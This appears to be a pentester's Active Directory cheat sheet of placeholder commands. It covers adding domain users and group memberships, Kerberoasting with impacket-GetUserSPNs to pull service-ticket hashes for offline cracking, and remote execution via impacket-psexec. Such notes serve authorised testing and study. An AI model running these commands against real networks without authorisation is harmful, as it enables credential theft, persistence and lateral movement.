 ```yaml
---
category: Uncategorized
tags: []
---
```

# Active Directory
Here there is different commands to interact with a domain
## Add User
````powershell
net user <username> <password> /add /domain
````

## Add to domain group
````powershell
net group <Group_Name> <username> /add
````

## Add to local group
````powershell
net localgroup <Group_Name> <username> /add
````
## Add to Remote Management group
Remote Management Users group is to allow users to remotely manage computers with Server Manager and RSAT - PSremoting or WinRM
````powershell
net localgroup "Remote Management Users" <username> /add
````
## GetUserSPNs
Impacket’s GetUserSPNs.py again simplifies the process to find SPNs, and is also able to request the TGS and
extract the hash for offline cracking.
````bash
impacket-GetUserSPNs <domain>/<username> -dc-ip <DC-IP>
````
### Requesting TGS ticket
Requesting a Ticket Granting Service ticket, which is can be cracked offline because the TGS_REP is encrypted using NTLM password hash of the account in whose context the service instance is running.
````bash
impacket-GetUserSPNs <domain>/<username> -dc-ip <DC-IP> -request
````
## PSexec
````bash
impacket-psexec <domain>/<username>:<password>@<IP-ADDRESS>
````
